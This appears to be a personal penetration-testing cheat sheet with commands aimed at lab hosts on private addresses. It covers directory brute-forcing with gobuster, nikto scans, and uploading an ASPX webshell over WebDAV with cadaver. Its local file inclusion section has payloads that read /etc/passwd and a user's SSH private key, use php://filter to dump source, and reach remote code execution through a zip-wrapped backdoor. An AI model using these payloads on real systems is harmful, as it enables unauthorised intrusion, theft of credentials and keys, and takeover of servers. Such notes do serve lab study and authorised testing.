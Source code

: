 <aside>
💡 Try to do `cd ..` (in kiero it let do traversal)

</aside>

```jsx
exiftool -a -G1 FUNCTION-TEMPLATE.pdf
```

## Web

```jsx
curl -L http://192.168.248.65:9998/
```

```jsx
gobuster dir -u http://192.168.167.127:45332/ -w /usr/share/wordlists/dirb/common.txt -t 99 2>/dev/null
```

```jsx
gobuster dir -u http://192.168.121.122 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,md,php,asp,aspx -t 99 2>/dev/null
gobuster dir -u https://192.168.249.140/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,md,php,asp,aspx -t 99 2>/dev/null
```

```jsx
nikto -h http://192.168.121.122
```

Abuse webdav with cadavr:

```jsx
cadaver http://192.168.157.122
put /usr/share/webshells/aspx/cmdasp.aspx
```

### LFI

[File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```jsx
http://240.0.0.1:8000/backend/?view=../../../../../../../../etc/passwd
<inject the php webshell to /var!!!>
http://240.0.0.1:8000/backend/?view=../../../../../../../../var/cmd.php&cmd=whoami
```

```jsx
?page=../../../../../../../Windows/System32/drivers/etc/hosts
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers/Viewer/.ssh/id_rsa
```

```jsx
http://192.168.223.229/index.php?file=home~~.php~~ # (if no need for .php -> only can include php files!)
http://192.168.223.229/index.php?file=php://filter/convert.base64-encode/resource=upload.php
http://192.168.223.229/index.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

# zip wrapper for RCE
http://192.168.223.229/index.php?file=zip://uploads/upload_1719432517.zip%23simple-backdoor.php&cmd=whoami
http://192.168.223.229/index.php?file=zip://uploads/upload_1719432517.zip%23simple-backdoor&cmd=whoami
```
